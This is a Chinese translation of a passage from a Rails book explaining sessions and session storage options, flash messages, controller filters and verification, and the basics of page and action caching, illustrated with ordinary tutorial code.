Rails 会话是一种类似哈希的结构，能够在请求之间保持状态。与原始 Cookie 不同，会话可以存储任何对象（只要这些对象能够被序列化），这使其成为在 Web 应用程序中保存状态信息的理想选择。例如，在我们的商店应用中，我们使用会话在请求之间保存购物车对象。Cart 对象在应用中的使用方式与其他对象无异。但 Rails 通过特殊处理，使得购物车在每次请求处理结束时被保存，更重要的是，在 Rails 开始处理新请求时能够恢复对应的购物车。通过会话，我们可以假装应用程序在请求之间一直存在。

这涉及两个部分。首先，Rails 需要跟踪会话。它通过（默认）创建一个 32 位十六进制字符的密钥（这意味着有 16<sup>32</sup> 种可能的组合）来实现这一点。这个密钥称为会话 ID，它实际上是随机生成的。Rails 将这个会话 ID 作为 Cookie（键名为 `_session_id`）存储在用户的浏览器上。当来自该浏览器的后续请求到达应用时，Rails 就能恢复会话 ID。

其次，Rails 在服务器上以会话 ID 为索引，维护一个持久化的会话数据存储。当请求到达时，Rails 使用会话 ID 查询数据存储。它从中找到的是一个序列化的 Ruby 对象。Rails 反序列化这个对象，并将结果存储在控制器的 session 属性中，应用程序代码就可以访问这些数据了。应用可以随心所欲地添加和修改这些数据。当处理完每个请求后，Rails 会将会话数据写回数据存储。数据将一直保存，直到收到来自该浏览器的下一个请求。

你应该在会话中存储什么？在遵守一些限制和注意事项的前提下，你可以存储任何想要的东西。

- 在会话中可以存储的对象类型有一些限制。具体细节取决于你选择的存储机制（我们稍后会介绍）。一般情况下，会话中的对象必须是可序列化的（使用 Ruby 的 Marshal 函数）。这意味着，例如，你无法在会话中存储 I/O 对象。
- 如果你在会话中存储任何 Rails 模型对象，则需要为它们添加模型声明。这会迫使 Rails 预加载模型类，以便 Ruby 从会话存储中反序列化该对象时，其定义是可用的。如果会话的使用仅限于一个控制器，则该声明可以放在该控制器的顶部。

```ruby
class BlogController < ApplicationController
  model :user_preferences
  # . . .
end
```

但是，如果会话可能被另一个控制器读取（在任何包含多个控制器的应用中都很有可能），你可能需要将声明添加到 `app/controllers` 中的 `application_controller.rb`。

- 你可能不想在会话数据中存储巨大的对象——将它们放入数据库，然后在会话中引用它们。
- 你可能不想在会话数据中存储易变对象。例如，你可能想出于性能原因在会话中保存博客文章数量的统计值。但这样做的话，当其他用户添加文章时，该计数不会更新。

将代表当前登录用户的对象存储在会话数据中是诱人的做法。如果你的应用需要能够使用户失效，这可能是不明智的。即使数据库中的用户被禁用，其会话数据仍然会反映有效的状态。

将易变数据存储在数据库中，然后在会话中引用它们。

- 你可能不想仅将关键信息存储在会话数据中。例如，如果你的应用在一个请求中生成订单确认号并将其存储在会话数据中，以便在处理下一个请求时保存到数据库，那么如果用户删除浏览器中的 Cookie，你就有丢失该号码的风险。关键信息需要存储在数据库中。

还有一个注意事项，而且很重要。如果你将对象存储在会话数据中，那么下次你回到该浏览器时，你的应用最终会检索到该对象。然而，如果你在此期间更新了应用，会话数据中的对象可能与应用中该对象类的定义不匹配，导致应用在处理请求时失败。这里有三种选择。一种是使用常规模型将对象存储在数据库中，仅在会话中保留该行的 ID。模型对象比 Ruby 的 marshaling 库更能容忍模式更改。第二种选择是，每当更改存储在数据中的类定义时，手动删除服务器上存储的所有会话数据。第三种选择稍微复杂一些。如果你在会话键中添加版本号，并在每次更新存储数据时更改该编号，那么你加载的数据将始终对应于应用的当前版本。你还可以潜在地为存储在会话中的对象对应的类添加版本控制，并根据每个请求关联的会话键使用相应的类。最后一种方法可能需要大量工作，因此你需要判断是否值得付出努力。

由于会话存储是类似哈希的，你可以在其中保存多个对象，每个对象有自己的键。在下面的代码中，我们将登录用户的 ID 存储在会话中。我们稍后在 index 操作中使用它来为该用户创建个性化菜单。我们还记录了最后选择的菜单项 ID，并使用该 ID 在索引页面上高亮显示所选内容。当用户登出时，我们重置所有会话数据。

```ruby
class SessionController < ApplicationController
  def login
    user = User.find_by_name_and_password(params[:user], params[:password])
    if user
      session[:user_id] = user.id
      redirect_to :action => "index"
    else
      reset_session
      flash[:note] = "Invalid user name/password"
    end
  end

  def index
    @menu = create_menu_for(session[:user_id])
    @menu.highlight(session[:last_selection])
  end

  def select_item
    @item = Item.find(params[:id])
    session[:last_selection] = params[:id]
  end

  def logout
    reset_session
  end
end
```

Rails 的惯例通常是方便的，但必要时我们可以覆盖默认值。就会话而言，选项是全局的，因此你通常会在环境文件中设置它们（`config/environment.rb` 或 `config/environments` 中的某个文件）[^4]。你可以通过哈希 `ActionController::Base.session_options` 来访问会话选项。例如，如果你想更改应用使用的 Cookie 名称（如果你计划在同一主机上运行多个 Rails 应用，这几乎是必须的），你可以在环境文件中添加以下内容。

```ruby
ActionController::Base.session_options[:session_key] = 'my_app'
```

[^4]: 有一个例外——你不能以这种方式设置会话过期时间。

可用的会话选项包括：

- `:session_domain` — 用于在浏览器上存储会话 ID 的 Cookie 的域。默认为应用的主机名。
- `:session_id` — 覆盖默认的会话 ID。如果未设置，新会话会自动生成一个 32 字符的 ID。此 ID 将在后续请求中使用。
- `:session_key` — 用于存储会话 ID 的 Cookie 的名称。如前所述，你可能需要在应用中覆盖此名称。
- `:session_path` — 此会话适用的请求路径（实际上是 Cookie 的路径）。默认为 `/`，因此它适用于此域中的所有应用。
- `:session_secure` — 如果为 true，则会话仅通过 `https://` 启用。默认为 false。
- `:new_session` — 直接映射到底层 Cookie 的 `new_session` 选项。然而，在 Rails 下，此选项不太可能按你需要的方式工作，我们将在第 21.5 节 *缓存页面的基于时间的过期*（第 462 页）中讨论一种替代方案。
- `:session_expires` — 此会话的绝对过期时间。与 `:new_session` 类似，在 Rails 下可能不应使用此选项。

##### 会话存储

Rails 在存储会话数据方面有多种选择。每种都有其优缺点。我们将首先列出这些选项，然后在最后进行比较。

`ActiveRecord::Base` 的 `session_store` 属性决定了会话存储机制——将此属性设置为实现存储策略的类。

此方法必须在 `CGI::Session` 模块中定义。⁵ 除了 PStore 之外，你使用符号来命名会话存储策略；该符号会被转换为驼峰式命名的类名。

```
session_store = CGI::Session::PStore
```

这是 Rails 默认使用的会话存储机制。每个会话的数据都以 PStore 格式存储在一个平面文件中。这种格式将对象保持在其序列化形式，从而允许在会话中存储任何可序列化的数据。此机制支持额外的配置选项 `:prefix` 和 `:tmpdir`。以下代码可能用于配置 PStore 会话，它位于配置目录的 `environment.rb` 文件中。

```
Rails::Initializer.run do |config|
  config.action_controller.session_store = CGI::Session::PStore
  config.action_controller.session_options[:tmpdir] = "/Users/dave/tmp"
  config.action_controller.session_options[:prefix] = "myapp_session_"
  # ...
end
```

```
session_store = :active_record_store
```

你可以使用 `ActiveRecordStore` 将会话数据存储在应用程序的数据库中。你可以使用 Rake 生成一个创建 sessions 表的迁移。

```
depot> rake db:sessions:create
```

运行 `rake db:migrate` 来创建实际的表。

如果你查看迁移文件，会看到 Rails 在 `session_id` 列上创建了索引，因为它用于查找会话数据。Rails 还定义了一个名为 `updated_at` 的列，这样 Active Record 会自动为会话表中的行添加时间戳——我们稍后会明白为什么这是一个好主意。

```
session_store = :drb_store
```

DRb 是一种允许 Ruby 进程通过网络连接共享对象的协议。使用 `DRbStore` 数据库管理器，Rails 会将会话数据存储在 DRb 服务器上（你可以在 web 应用程序外部管理该服务器）。你的应用程序的多个实例（可能运行在分布式服务器上）可以访问同一个 DRb 存储。Rails 源代码中包含一个适用于 Rails 的简单 DRb 服务器。⁶ DRb 使用 Marshal 来序列化对象。

> 5.  你可能会使用 Rails 内置的会话存储策略之一，但如果情况需要，你也可以实现自己的存储机制。这样做的接口超出了本书的范围——请查看 Rails 源代码中 `actionpack/lib/actioncontroller/session` 目录下的各种 Rails 实现。

> 6.  如果你从 gems 安装，你会在 `{RUBYBASE}/lib/ruby/gems/1.8/gems/actionpack-x.y/lib/action_controller/session/drb_server.rb` 中找到它。

```
session_store = :mem_cache_store
```

memcached 是 Danga Interactive 提供的自由可用的分布式对象缓存系统。⁷ Rails MemCacheStore 使用 Michael Granger 的 Ruby 接口⁸ 连接到 memcached 来存储会话。memcached 比其他替代方案更复杂，可能只有当你出于其他原因已经在站点中使用它时才有意义。

```
:session_store = :memory_store
```

此选项将会话数据本地存储在应用程序的内存中。由于不涉及序列化，任何对象都可以存储在内存会话中。我们稍后会看到，对于 Rails 应用程序来说，这通常不是一个好主意。

```
:database_manager => CGI::Session::FileStore
```

会话数据存储在平面文件中。它对 Rails 应用程序几乎没用，因为内容必须是字符串。此机制支持额外的配置选项 `:prefix`、`:suffix` 和 `:tmpdir`。

你可以为整个应用程序、特定控制器或某些操作启用或禁用会话存储。这通过会话声明来完成。

要为整个应用程序禁用会话，请将以下行添加到 `app/controllers` 目录中的 `application.rb` 文件。

```
class ApplicationController < ActionController::Base
  session :off
  # ...
end
```

如果你将相同的声明放在特定控制器内，则会将效果限制在该控制器。

```
class RssController < ActionController::Base
  session :off
  # ...
end
```

最后，会话声明支持 `:only`、`:except` 和 `:if` 选项。前两个接受操作名称或包含操作名称的数组。最后一个接受一个代码块，该块被调用以确定是否应遵循会话指令。以下是你可以在控制器中放置的一些会话指令示例。

```
# 为 rss 操作禁用会话
session :off, :only => :rss

# 为 show 和 list 操作禁用会话
session :off, :only => [ :show, :list ]

# 为除 show 和 list 外的所有操作启用会话
session :except => [ :show, :list ]

# 在星期日禁用会话 :)
session :off, :if => proc { Time.now.wday == 0 }
```

7. http://www.danga.com/memcached
8. 可从 http://www.deveiate.org/projects/RMemCache 获取

##### 比较会话存储选项

有这么多会话选项可供选择，你应该在应用程序中使用哪一个？一如既往，答案是“这取决于情况”。

如果我们排除过于简化的内存存储、限制太多的文件存储以及有些大材小用的 memcached，选择就简化为 PStore、Active Record 存储和基于 DRb 的存储。我们可以比较这些选项的性能和功能。

Scott Barron 对这些存储选项的性能进行了引人入胜的分析。⁹ 他的发现有些出人意料。在会话数量较少时，PStore 和 DRb 大致相当。随着会话数量的增加，PStore 的性能开始下降。这可能是因为主机操作系统难以维护包含数万个会话数据文件的目录。DRb 的性能保持相对平稳。使用 Active Record 作为后备存储的性能较低，但随着会话数量的增加而保持平稳。

这对你意味着什么？评论员 Bill Katz 在以下段落中进行了总结。

如果你预期是一个大型网站，关键问题是可扩展性，你可以通过“向上扩展”（通过增加额外的 CPU、内存等来增强现有服务器）或“向外扩展”（添加新服务器）来解决它。当前的理念是由 Google 等公司普及的通过添加廉价、通用服务器来向外扩展。理想情况下，这些服务器中的每一个都应该能够处理任何传入请求。因为单个会话中的请求可能由多个服务器处理，我们需要会话存储在整个服务器农场中都是可访问的。你选择的会话存储选项应反映你优化整个服务器系统的计划。鉴于硬件和软件方面的丰富可能性，你可以沿着许多可能影响会话存储选择的轴进行优化。例如，你可以使用新的 MySQL 集群数据库，它具有极快的内存事务处理能力；这与 Active Record 方法配合得非常好。你也可以拥有一个高性能的存储区域网络，这可能与 PStore 配合得很好。memcached 方法用于 LiveJournal、Slashdot 和 Wikipedia 等高流量网站的后端。当你分析你试图扩展的特定应用程序并运行基准测试以调整方法时，优化效果最佳。简而言之，“这取决于情况”。

9. 镜像于 http://media.pragprog.com/ror/sessions

在性能方面几乎没有绝对的东西，每个人的环境都不同。你的硬件、网络延迟、数据库选择，甚至天气都可能影响会话存储所有组件的交互方式。我们最好的建议是从最简单的可行解决方案开始，然后监控它。如果它开始拖慢你的速度，请先找出原因，然后再做出改变。

我们建议你从 Active Record 解决方案开始。如果你的应用程序增长后，你发现这成为了一个瓶颈，你可以迁移到基于 DRb 的解决方案。

##### 会话过期和清理

所有解决方案都有一个问题，那就是会话数据存储在服务器上。每个新会话都会向会话存储中添加一些东西。你最终需要进行一些清理工作，否则你将耗尽服务器资源。

清理会话还有另一个原因。许多应用程序不希望会话永远持续下去。一旦用户从特定浏览器登录，应用程序可能希望强制执行一条规则：只有当用户处于活动状态时才保持登录状态；当他们注销时，或者在他们最后一次使用应用程序后的某个固定时间后，他们的会话应该被终止。

有时你可以通过使持有会话 ID 的 cookie 过期来实现此效果。然而，这容易受到最终用户的滥用。更糟糕的是，很难同步浏览器上 cookie 的过期与服务器上会话数据的清理。

因此，我们建议你通过简单地删除服务器端的会话数据来使会话过期。如果随后浏览器发送的请求包含已删除数据的会话 ID，应用程序将不会收到任何会话数据；该会话实际上将不存在。

实现此过期取决于所使用的存储机制。

对于基于 PStore 的会话，最简单的方法是定期运行清理任务（例如在类 Unix 系统下使用 `cron(1)`）。此任务应检查会话数据目录中文件的最后修改时间，删除那些早于给定时间的文件。

对于基于 Active Record 的会话存储，请使用 sessions 表中的 `updated_at` 列。你可以通过清理任务发出如下 SQL 语句来删除最近一小时内（忽略夏令时变化）未修改的所有会话


删除 `sessions` 表中 `updated_at` 超过 3600 秒（1小时）的记录。

```sql
delete from sessions
where now() - updated_at > 3600;
```

对于基于 DRb 的解决方案，会话过期发生在 DRb 服务器进程内。您可能希望在会话数据哈希中，为每个条目记录时间戳。您可以运行一个单独的线程（甚至一个单独的进程），定期删除该哈希中的条目。

在所有情况下，当您的应用不再需要会话时（例如，用户登出时），可以通过调用 `reset_session` 来删除会话，从而辅助此过程。

### 21.3 Flash——在 Action 之间通信

当我们使用 `redirect_to` 将控制权转移到另一个 action 时，浏览器会生成一个单独的请求来调用该 action。该请求将由我们的应用程序在一个全新的控制器对象实例中处理——在原始 action 中设置的实例变量，在处理重定向 action 的代码中是不可用的。但有时我们需要在这两个实例之间进行通信。我们可以使用一种叫做 *flash* 的机制来实现。

Flash 是一个用于存储临时值的暂存区。它的组织方式类似于一个哈希表，并存储在会话数据中，因此您可以存储与键关联的值，并在之后检索它们。它有一个特殊的属性。默认情况下，在处理一个请求期间存储到 flash 中的值，将在紧随其后的下一个请求处理期间可用。一旦第二个请求处理完毕，这些值就会从 flash 中移除。<sup>10</sup>

Flash 最常见的用途可能是将错误信息和提示信息从一个 action 传递到下一个 action。这里的意图是，第一个 action 注意到某种情况，创建一条描述该情况的消息，然后重定向到一个单独的 action。通过将消息存储在 flash 中，第二个 action 就能访问该消息文本并在视图中使用它。

```ruby
class BlogController
  def display
    @article = Article.find(params[:id])
  end

  def add_comment
    @article = Article.find(params[:id])
    comment = Comment.new(params[:comment])
    @article.comments << comment
    if @article.save
      flash[:notice] = "Thank you for your valuable comment"
    else
      flash[:notice] = "We threw your worthless comment away"
    end
    redirect_to :action => 'display'
  end
end
```

> 10. 如果您阅读 flash 功能的 RDoc 文档，您会看到它提到值仅对下一个 action 可用。这并不完全准确：flash 是在处理下一个请求结束时被清空的，而不是按 action 逐个清空的。

在这个例子中，`add_comment` 方法使用 `:notice` 键存储了两条不同消息中的一条。它重定向到 `display` action。

`display` action 似乎没有使用这些信息。要了解发生了什么，我们需要深入查看定义博客控制器布局的模板文件。该文件位于 `app/views/layouts` 目录下的 `blog.html` 文件中。

```erb
<head>
    <title>My Blog</title>
    <%= stylesheet_link_tag("blog") %>
</head>
<body>
    <div id="main">
        <% if flash[:notice] -%>
        <div id="notice"><%= flash[:notice] %></div>
        <% end -%>

        <%= yield :layout %>
    </div>
</body>
</html>
```

在这个例子中，如果 flash 包含 `:notice` 键，我们的布局就会生成相应的 `<div>` 元素。

有时使用 flash 作为将消息传递给当前 action 模板的一种方式会很方便。例如，我们的 `display` 方法可能希望在没有其他更紧急通知时，输出一个欢迎横幅。这个消息不需要传递给下一个 action——它仅用于当前请求。为此，它可以使用 `flash.now`，它会更新 flash，但不会添加到会话数据中。

```ruby
class BlogController
    def display
        flash.now[:notice] = "Welcome to my blog" unless flash[:notice]
        @article = Article.find(params[:id])
    end
end
```

`flash.now` 创建一个临时的 flash 条目，而 `flash.keep` 的作用正好相反，它让当前在 flash 中的条目在另一个请求周期中仍然保留。

```ruby
class SillyController
    def one
        flash[:notice] = "Hello"
        flash[:error] = "Boom!"
        redirect_to :action => "two"
    end

    def two
        flash.keep(:notice)
        flash[:warning] = "Mew!"
        redirect_to :action => "three"
    end

    def three
        # 在此时刻，
        # flash[:notice]     => "Hello"
        # flash[:warning] => "Mew!"
        # 而 flash[:error] 未设置
        render
    end
end
```

如果您不向 `flash.keep` 传递任何参数，所有 flash 内容都会被保留。Flash 可以存储不仅仅是文本消息——您可以使用它们在 action 之间传递各种信息。显然，对于需要长期保存的信息，您应该使用会话（可能结合数据库）来存储数据，但如果您想将参数从一个请求传递到下一个请求，flash 非常方便。

因为 flash 数据存储在会话中，所以所有通常的规则都适用。特别是，每个对象都必须是可序列化的，并且如果您存储模型对象，需要在控制器中声明模型。

### 21.4 过滤器与验证

过滤器使您能够在控制器中编写代码，来包装由 action 执行的处理——您可以编写一段代码一次，然后让它在控制器（或其子类）中的任何 number of 个 action 之前或之后被调用。这被证明是一个强大的功能。使用过滤器，我们可以实现身份验证方案、日志记录、响应压缩，甚至响应自定义。

Rails 支持三种类型的过滤器：before、after 和 around。过滤器在 action 执行之前和/或之后被调用。根据您的定义方式，它们要么作为控制器内部的方法运行，要么在运行时被传递控制器对象。无论哪种方式，它们都可以访问请求和响应对象的详细信息，以及其他控制器属性。

#### Before 和 After 过滤器

顾名思义，before 和 after 过滤器在 action 之前或之后被调用。Rails 为每个控制器维护两条过滤器链。当一个控制器即将运行一个 action 时，它会执行 before 链上的所有过滤器。它在运行 after 链上的过滤器之前执行 action。

过滤器可以是被动的，监视控制器执行的活动。它们也可以在请求处理中扮演更积极的角色。如果 before filter 返回 false，过滤器链的处理就会终止，action 就不会运行。过滤器也可以渲染输出或重定向请求，在这种情况下，原始 action 永远不会被调用。

我们在第 166 页的商店示例的管理部分看到了一个使用过滤器进行授权的例子。我们定义了一个授权方法，如果当前会话中没有已登录的用户，就重定向到登录屏幕。

```ruby
class ApplicationController < ActionController::Base

  private

  def authorize
    unless User.find_by_id(session[:user_id])
      flash[:notice] = "Please log in"
      redirect_to(:controller => "login", :action => "login")
    end
  end

end
```

然后我们让这个方法成为管理控制器中所有 action 的 before filter。

```ruby
class AdminController < ApplicationController
  before_filter :authorize

  # ...

end
```

这是一个让方法充当过滤器的例子；我们通过符号传递方法名给 `before_filter`。过滤器声明也接受代码块和类名。如果指定了代码块，它将以当前控制器作为参数被调用。如果给出了一个类，它的 `filter` 类方法将被调用，并传入控制器作为参数。

```ruby
class AuditFilter
  def self.filter(controller)
    AuditLog.create(:action => controller.action_name)
  end
end

# ...

class SomeController < ApplicationController

  before_filter do |controller|
    logger.info("Processing #{controller.action_name}")
  end

  after_filter AuditFilter

  # ...
end
```

默认情况下，过滤器应用于控制器中的所有 action（以及该控制器的任何子类）。您可以使用 `:only` 选项（指定要过滤的一个或多个 action）和 `:except` 选项（列出要排除在过滤之外的 action）来修改此行为。

```ruby
class BlogController < ApplicationController

  before_filter :authorize, :only => [ :delete, :edit_comment ]

  after_filter :log_access, :except => :rss

  # ...
end
```

`before_filter` 和 `after_filter` 声明会追加到控制器的过滤器链中。使用变体 `prepend_before_filter` 和 `prepend_after_filter` 可以将过滤器放在链的前端。

#### After 过滤器与响应处理

After 过滤器可用于修改出站响应，根据需要更改标头和内容。一些应用程序使用此技术在控制器模板生成的内容中执行全局替换（例如，将响应正文中的字符串 `<customer/>` 替换为客户名称）。另一个用途可能是如果用户的浏览器支持，则压缩响应。

以下代码是一个示例，说明这可能如何工作。^[11] 控制器将 `compress` 方法声明为一个 after filter。该方法查看请求标头，以查看浏览器是否接受压缩响应。如果是，它使用 Zlib 库将响应主体压缩成一个字符串。^[12] 如果结果比原始主体短，它会用压缩版本替换，并更新响应的编码类型。

> 11. 此代码不是压缩功能的完整实现。特别是，它不会压缩使用 `send_file` 下载到客户端的流式数据。
> 12. 请注意，Zlib Ruby 扩展在您的平台上可能不可用——它依赖于底层 `libzlib.a` 库的存在。


下载 el/filter/app/controllers/compress_controller.rb
require 'zlib'
require 'stringio'

class CompressController < ApplicationController

  after_filter :compress

  def index
    render(:text => "<pre>" + File.read("/etc/motd") + "</pre>")
  end

  protected

  def compress
    accepts = request.env['HTTP_ACCEPT_ENCODING']
    return unless accepts && accepts =~ /(x-gzip|gzip)/
    encoding = $1

    output = StringIO.new
    def output.close    # Zlib does a close. Bad Zlib...
      rewind
    end

    gz = Zlib::GzipWriter.new(output)
    gz.write(response.body)
    gz.close

    if output.length < response.body.length
      response.body = output.string
      response.headers['Content-encoding'] = encoding
    end
  end
end

##### 环绕过滤器

环绕过滤器包装了操作的执行。你可以用两种不同的风格编写环绕过滤器。第一种风格中，过滤器是一段单独的代码块。这段代码在操作执行之前被调用。如果过滤器代码调用了 `yield`，则操作被执行。当操作完成后，过滤器代码继续执行。因此，`yield` 之前的代码就像一个 `before` 过滤器，而 `yield` 之后的代码则像是一个 `after` 过滤器。如果过滤器代码从未调用 `yield`，则操作不会运行——这与一个 `before` 过滤器返回 `false` 的效果相同。

环绕过滤器的好处在于它们可以在操作调用过程中保持上下文。例如，下一页上的清单就是一个简单的环绕过滤器，它记录一个操作执行所需的时间。

```ruby
class BlogController < ApplicationController

  around_filter :time_an_action

  def index
    # ...
    render :text => "hello"
  end

  def bye
    # ...
    render :text => "goodbye"
  end

  private

  def time_an_action
    started = Time.now
    yield
    elapsed = Time.now - started
    logger.info("#{action_name} took #{elapsed} seconds")
  end

end
```

我们向 `around_filter` 声明传递了一个方法名 `time_an_action`。每当此控制器中的操作即将被调用时，都会调用此过滤器方法。它记录时间，然后第 19 行的 `yield` 语句调用原始操作。当操作返回时，它计算并记录操作花费的时间。

除了向 `around_filter` 传递方法名外，你还可以传递一个块或一个过滤器类。

如果你使用一个块作为过滤器，它将被传递两个参数：控制器对象和一个操作代理。使用此第二个参数的 `call` 方法来调用原始操作。例如，以下是之前过滤器的块版本。

```ruby
around_filter do |controller, action|
  started = Time.now
  action.call
  elapsed = Time.now - started
  controller.logger.info("#{controller.action_name} took #{elapsed} seconds")
end
```

第三种形式允许你传递一个对象作为过滤器。此对象应实现一个名为 `filter` 的方法。此方法将接收控制器对象。它通过 `yield` 来调用操作。例如，以下代码将我们的计时过滤器实现为一个类。

```ruby
class BlogController < ApplicationController
  class TimingFilter
    def filter(controller)
      started = Time.now
      yield
      elapsed = Time.now - started
      controller.logger.info("#{controller.action_name} took #{elapsed} seconds")
    end
  end

  around_filter TimingFilter.new
end
```

环绕过滤器还有一种替代形式，你传递一个实现了 `before` 和 `after` 方法的对象。这种形式已轻微过时。

与 `before` 和 `after` 过滤器一样，环绕过滤器也接受 `:only` 和 `:except` 参数。

环绕过滤器（默认情况下）被添加到过滤器链的方式不同：添加的第一个环绕过滤器最先执行。随后添加的环绕过滤器将嵌套在现有的环绕过滤器内。因此，给定

```ruby
around_filter :one, :two
```

```ruby
def one
  logger.info("start one")
  yield
  logger.info("end one")
end
```

```ruby
def two
  logger.info("start two")
  yield
  logger.info("end two")
end
```

日志消息的顺序将是

```
start one
start two
...
end two
end one
```

13. 请注意，在撰写本文时，Rails API 文档对描述此顺序是不正确的。

##### 过滤器继承

如果你有一个包含过滤器的控制器的子类，那么过滤器将在子对象和父对象上都运行。但是，在子类中定义的过滤器不会在父类中运行。

如果你不想某个特定过滤器在子控制器中运行，你可以使用 `skip_before_filter` 和 `skip_after_filter` 声明来覆盖默认处理。它们接受 `:only` 和 `:except` 参数。

你可以使用 `skip_filter` 跳过任何过滤器（`before`、`after` 和 `around`）。但是，它仅适用于指定为方法（符号）名称的过滤器。

例如，我们可以通过在我们的应用程序控制器中添加以下内容来全局强制进行身份验证。

```ruby
class ApplicationController < ActionController::Base
  before_filter :validate_user

  private
  def validate_user
    # ...
  end
end
```

我们不希望此过滤器为 `login` 操作运行。

```ruby
class UserController < ApplicationController
  skip_before_filter :validate_user, :only => :login

  def login
    # ...
  end
end
```

#### 验证

`before` 过滤器的一个常见用途是在尝试执行操作之前验证是否满足某些条件。Rails 的 `verify` 机制是一种抽象，它可能帮助你比在显式过滤器代码中更简洁地表达这些前置条件。

例如，我们可能要求会话中包含一个有效用户，然后才允许博客发表评论。我们可以使用一个验证来表达这一点，例如

```ruby
class BlogController < ApplicationController
  verify :only => :post_comment,
         :session => :user_id,
         :add_flash => { :note => "You must log in to comment"},
         :redirect_to => :index

  # ...
end
```

此声明将验证应用于 `post_comment` 操作。如果会话不包含键 `:user_id`，则会向 flash 中添加一条注释，并将请求重定向到 `index` 操作。

`verify` 的参数可以分为三类。

##### 适用性

这些选项选择对哪些操作应用验证。

- `:only => :name or [ :name, ... ]`
  仅对列出的操作或操作进行验证。

- `:except => :name or [ :name, ... ]`
  对除列出的操作之外的所有操作进行验证。

##### 测试

这些选项描述了对请求执行的测试。如果给出了多个测试，则所有测试都必须为真，验证才能成功。

- `:flash => :key or [ :key, ... ]`
  flash 必须包含给定的键或键。

- `:method => :symbol or [ :symbol, ... ]`
  请求方法（`:get`、`:post`、`:head` 或 `:delete`）必须与给定的符号之一匹配。

- `:params => :key or [ :key, ... ]`
  请求参数必须包含给定的键或键。

- `:session => :key or [ :key, ... ]`
  会话必须包含给定的键或键。

- `:xhr => true or false`
  请求必须（或不能）来自 AJAX 调用。

##### 操作

这些选项描述了如果验证失败应该发生什么。如果未指定操作，则验证失败时向浏览器返回一个空响应。

- `:add_flash => hash`
  将给定的键/值对哈希合并到 flash 中。这可用于向用户生成错误响应。

- `:add_headers => hash`
  将给定的键/值对哈希合并到响应头中。

- `:redirect_to => *params*`
  使用给定的参数哈希进行重定向。

- `:render => *params*`
  使用给定的参数哈希进行渲染。

### 21.5 缓存，第一部分

许多应用程序似乎花费大量时间一遍又一遍地执行相同的任务。博客应用程序为每个访问者渲染当前文章列表。商店应用程序会为每个请求它的人显示相同的产品信息页面。

所有这些重复都消耗了我们服务器上的资源和时间。渲染博客页面可能需要六次数据库查询，最终可能运行许多 Ruby 方法和 Rails 模板。对于单个请求来说这不是什么大事，但乘以每小时数千次点击，突然间你的服务器就开始发出暗红色的光。你的用户会将其视为响应时间变慢。

在这种情况下，我们可以使用缓存来大大减少服务器的负载并提高应用程序的响应能力。我们不是一遍又一遍地从头生成相同的内容，而是创建一次并记住结果。下次收到对同一页面的请求时，我们从缓存中提供它，而不是重新创建它。

Rails 提供了三种缓存方法。在本章中，我们将描述其中的两种，*页面缓存*和*操作缓存*。我们将在 *Action View* 章节（第 514 页）中介绍第三种，*片段缓存*。

*页面缓存*是 Rails 缓存中最简单和最高效的形式。当用户第一次请求特定 URL 时，我们的应用程序被调用并生成一个 HTML 页面。该页面的内容存储在缓存中。下次收到包含该 URL 的请求时，HTML 页面直接从缓存中提供。你的应用程序根本看不到该请求。实际上，Rails 完全不参与：请求完全在 Web 服务器内处理，这使得页面缓存非常非常高效。你的应用程序提供这些页面的速度与服务器提供任何其他静态内容的速度相同。

但是，有时我们的应用程序需要至少部分参与处理这些请求。例如，你的商店可能只向一部分用户显示某些产品的详细信息（也许是高级客户可以更早地访问新产品）。在这种情况下，你显示的页面内容相同，但你不想向任何人显示它——你需要过滤对缓存内容的访问。Rails 提供了*操作缓存*用于此目的。


#### 操作缓存

通过操作缓存，您的应用程序控制器仍会被调用，并且其前置过滤器也会执行。但是，如果存在已缓存的页面，实际的操作本身不会被调用。

让我们从一个包含公共内容和付费会员专属内容的网站角度来探讨这个问题。我们有两个控制器：一个用于验证用户是否为会员的登录控制器，以及一个包含显示公共内容和付费内容操作的内容控制器。公共内容包括一个带有付费文章链接的页面。如果有人请求付费内容但非会员，我们会将他们重定向到登录控制器中的注册操作。

暂时忽略缓存机制，我们可以使用前置过滤器来验证用户状态，并用几个操作方法来处理这两种内容，从而实现该应用程序的内容部分。

```ruby
class ContentController < ApplicationController
  before_filter :verify_premium_user, :except => :public_content

  def public_content
    @articles = Article.list_public
  end

  def premium_content
    @articles = Article.list_premium
  end

  private

  def verify_premium_user
    user = session[:user_id]
    user = User.find(user) if user
    unless user && user.active?
      redirect_to :controller => "login", :action => "signup_new"
    end
  end
end
```

由于内容页面是固定的，因此可以被缓存。我们可以在页面级别缓存公共内容，但必须限制对已缓存的付费内容的访问，仅限会员访问，因此我们需要对它使用操作级别的缓存。要启用缓存，我们只需在类中添加两个声明。

```ruby
class ContentController < ApplicationController
  before_filter :verify_premium_user, :except => :public_content

  caches_page    :public_content
  caches_action :premium_content
```

`caches_page` 指令告诉 Rails 在第一次生成 `public_content` 的输出时缓存它。此后，该页面将直接从 Web 服务器提供。

第二个指令 `caches_action` 告诉 Rails 缓存执行 `premium_content` 的结果，但仍然执行过滤器。这意味着我们仍将验证请求页面的人是否有权访问，但实际上不会多次执行该操作。¹⁴

缓存默认仅在生产环境中启用。您可以通过设置以下方式手动开启或关闭它：

```ruby
ActionController::Base.perform_caching = true | false
```

您可以在应用程序的环境文件中（位于 `config/environments`）进行此项更改，尽管那里的首选语法略有不同。

```ruby
config.action_controller.perform_caching = true
```

##### 缓存什么

Rails 的操作和页面缓存严格基于 URL。页面根据首次生成它的 URL 内容进行缓存，随后对该相同 URL 的请求将返回已保存的内容。

这意味着依赖于 URL 中不包含信息的动态页面不适合作为缓存候选。这些包括：

- 内容基于时间的页面（尽管请参阅第 21.5 节“基于时间的缓存页面过期”，第 462 页）。
- 内容依赖于会话信息的页面。例如，如果您为每个用户自定义页面，您可能无法缓存它们（尽管您或许可以利用片段缓存，从第 514 页开始描述）。
- 由您不控制的数据生成的页面。例如，显示我们数据库信息的页面如果非 Rails 应用程序也可以更新该数据库，那么它可能无法被缓存。我们的缓存页面可能会在我们应用程序不知情的情况下变得过时。

然而，缓存*可以*处理由您控制的易变内容生成的页面。正如我们将在下一节中看到的，这仅仅是当缓存页面过时时删除它们的问题。

> ¹⁴. 操作缓存是第 451 页描述的 `around_filter` 的一个好例子。过滤器的 before 部分检查是否存在缓存项。如果存在，它会直接将其呈现给用户，阻止真正的操作运行。过滤器的 after 部分将操作运行的结果保存在缓存中。

##### 页面过期

创建缓存页面只是等式的一半。如果最初用于创建这些页面的内容发生变化，缓存版本将变得过时，我们需要一种方法来使它们过期。

